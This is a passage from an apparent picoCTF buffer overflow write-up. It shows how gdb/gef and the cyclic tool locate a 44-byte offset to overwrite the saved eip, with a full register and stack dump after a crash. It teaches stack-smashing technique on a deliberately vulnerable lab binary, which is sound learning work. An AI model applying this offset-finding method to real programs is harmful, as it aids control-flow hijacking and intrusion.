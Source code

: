 ```
gef➤ 
```
we can see that it took "laaa" as the address where to go to for contexte restitution. To get the characters needed to overwrite the `eip` pointer then we needed to give `cyclic` command the sustring that the pointer was overwritend with :

```
cyclic -l laaa
```

Here is the result

```
44
```

So we need to generate 44 characters to arrive to the `eip` pointer, then give it the address we want so it jumbs to it after finishing with the vuln function.

```
cyclic 44
```

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaa
```

Note that in `gdb`, if you give it 44 characters only you will find segmenation fault for other points, but the `eip` still not touched and points to the `main()` function :

```
0x08049300 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x40      
$ebx   : 0x6161616a ("jaaa"?)
$ecx   : 0x0       
$edx   : 0xf7fc0500  →  0xf7fc0500  →  [loop detected]
$esp   : 0xffffcf20  →  0xffffcf60  →  0xf7e20ff4  →  0x00220d8c
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0xffffd004  →  0xffffd1c9  →  "/home/rivench/Documents/picoCTF/buffer_overflow_1/[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x8049300  →  <main+60> dec DWORD PTR [ecx-0x137c0bbb]
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf20│+0x0000: 0xffffcf60  →  0xf7e20ff4  →  0x00220d8c     ← $esp
0xffffcf24│+0x0004: 0xf7fbf66c  →  0xf7ffdba0  →  0xf7fbf780  →  0xf7ffda40  →  0x00000000
0xffffcf28│+0x0008: 0xf7fbfb10  →  0xf7c1ac8a  →  "GLIBC_PRIVATE"
0xffffcf2c│+0x000c: 0x000003e8
0xffffcf30│+0x0010: 0xffffcf50  →  0x00000001
0xffffcf34│+0x0014: 0xf7e20ff4  →  0x00220d8c
0xffffcf38│+0x0018: 0xf7ffd020  →  0xf7ffda40  →  0x00000000
0xffffcf3c│+0x001c: 0xf7c213b5  →   add esp, 0x10
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
 →  0x8049300 <main+60>        dec    DWORD PTR [ecx-0x137c0bbb]
    0x8049306 <main+66>        add    al, 0xff
    0x8049308 <main+68>        jne    0x80492fe <main+58>
    0x804930a <main+70>        push   DWORD PTR [ebp-0xc]
    0x804930d <main+73>        push   DWORD PTR [ebp-0xc]
    0x8049310 <main+76>        call   0x80490d0 <setresgid@plt>
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x8049300 in main (), reason: SIGSEGV
```
